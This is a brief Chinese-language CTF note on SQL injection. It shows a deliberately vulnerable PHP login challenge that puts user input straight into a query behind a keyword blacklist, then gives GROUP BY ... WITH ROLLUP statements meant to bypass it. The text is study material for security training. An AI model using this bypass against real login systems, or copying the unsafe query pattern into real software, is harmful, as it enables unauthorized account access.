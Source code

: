 ### 原理：通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，把用户可控的一些变量, 带入到了数据库的各种操作当中且没有做好很好的过滤，最终欺骗服务器执行恶意的SQL命令。
#### sql注入ｃｔｆ
```php
二绕过技巧
<?php
//题目如下
$flag = '';
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)|like|rlike|regexp|limit|or";

$username = $_POST['username'];
$passwd = $_POST['passwd'];
if (preg_match("/".$filter."/is",$username)==1){
    die("Hacker hacker hacker~");
}
if (preg_match("/".$filter."/is",$passwd)==1){
    die("Hacker hacker hacker~");
}

$conn = mysqli_connect();

$query = "SELECT * FROM users WHERE username='{$username}';";
echo $query."<br>";
$query = mysqli_query($conn, $query);
if (mysqli_num_rows($query) == 1){
    $result = mysqli_fetch_array($query);
    if ($result['passwd'] == $passwd){
        die('you did it and this is your flag: '.$flag);
    }
    else{
        die('Wrong password');
    }
}
else{
    die('Wrong username');
}
?>
```
### 绕过语句
```sql

SELECT sum(id),username FROM admin group by username  with ROLLUP;

SELECT * FROM admin group by username  with ROLLUP;

```
执行语句后如下图